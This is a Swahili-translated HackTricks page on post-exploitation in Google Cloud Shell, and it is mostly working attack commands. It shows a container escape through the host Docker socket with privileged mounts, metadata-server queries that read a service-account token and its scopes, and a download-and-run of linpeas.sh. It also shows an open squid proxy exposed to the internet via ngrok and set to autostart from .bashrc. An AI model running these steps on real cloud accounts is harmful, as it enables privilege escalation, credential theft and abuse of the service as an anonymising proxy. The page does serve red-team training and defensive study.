 # GCP - Uchimbaji wa Baada ya Kuingia kwenye Cloud Shell

{% hint style="success" %}
Jifunze na zoea Udukuzi wa AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Mafunzo ya HackTricks ya Mtaalam wa Timu Nyekundu ya AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na zoea Udukuzi wa GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Mafunzo ya HackTricks ya Mtaalam wa Timu Nyekundu ya GCP (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>unga mkono HackTricks</summary>

* Angalia [**mpango wa michango**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

Kwa habari zaidi kuhusu Cloud Shell angalia:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Kutoroka kwenye Kontena

Tafadhali kumbuka kuwa Google Cloud Shell inaendeshwa ndani ya kontena, unaweza **kutoroka kwa urahisi kwenda kwenye mwenyeji** kwa kufanya hivi: 

{% code overflow="wrap" %}
```bash
sudo docker -H unix:///google/host/var/run/docker.sock pull alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock run -d -it --name escaper -v "/proc:/host/proc" -v "/sys:/host/sys" -v "/:/rootfs" --network=host --privileged=true --cap-add=ALL alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock start escaper
sudo docker -H unix:///google/host/var/run/docker.sock exec -it escaper /bin/sh
```
{% endcode %}

Hii haichukuliwi kama udhaifu na google, lakini inakupa wigo mpana wa kinachoendelea katika mazingira hayo.

Zaidi ya hayo, kumbuka kwamba kutoka kwenye mwenyeji unaweza kupata tokeni ya akaunti ya huduma:
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/"
default/
vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/
```
{% endcode %}

Na scopes zifuatazo:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/scopes"

https://www.googleapis.com/auth/devstorage.read_only
https://www.googleapis.com/auth/logging.write
https://www.googleapis.com/auth/monitoring.write
```
Chunguza metadata na LinPEAS:

{% code overflow="wrap" %}
```bash
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
sh linpeas.sh -o cloud
```
{% endcode %}

Baada ya kutumia [https://github.com/carlospolop/bf\_my\_gcp\_permissions](https://github.com/carlospolop/bf\_my\_gcp\_permissions) na token ya Akaunti ya Huduma **hakuna idhini iliyogunduliwa**...

### Tumia kama Proksi

Ikiwa unataka kutumia kifaa chako cha ganda la Google Cloud kama proksi unahitaji kukimbia amri zifuatazo (au uzijumuishe katika faili ya .bashrc):
```bash
sudo apt install -y squid
```
Tu kwa ajili ya kujua Squid ni seva ya proksi ya http. Unda faili ya **squid.conf** na mipangilio ifuatayo:
```bash
http_port 3128
cache_dir /var/cache/squid 100 16 256
acl all src 0.0.0.0/0
http_access allow all
```
Copy the **squid.conf** file to **/etc/squid**  
Hakikisha kwamba unakili faili ya **squid.conf** kwenda **/etc/squid**
```bash
sudo cp squid.conf /etc/squid
```
Mwishowe zindua huduma ya squid:
```bash
sudo service squid start
```
Tumia ngrok ili kuwezesha proksi iweze kupatikana kutoka nje:
```bash
./ngrok tcp 3128
```
Baada ya kukimbia nakili url ya tcp://. Ikiwa unataka kukimbia proksi kutoka kwenye kivinjari inashauriwa kuondoa sehemu ya tcp:// na namba ya mlango na weka mlango kwenye uga wa mlango wa mipangilio ya proksi ya kivinjari chako (squid ni seva ya proksi ya http).

Kwa matumizi bora wakati wa kuanza .bashrc faili inapaswa kuwa na mistari ifuatayo:
```bash
sudo apt install -y squid
sudo cp squid.conf /etc/squid/
sudo service squid start
cd ngrok;./ngrok tcp 3128
```
Maagizo yalichukuliwa kutoka [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key). Angalia ukurasa huo kwa mawazo mengine ya kufanya kazi na aina yoyote ya programu (databases na hata windows) kwenye Cloud Shell.

{% hint style="success" %}
Jifunze & jifunze AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Mafunzo ya HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze & jifunze GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Mafunzo ya HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
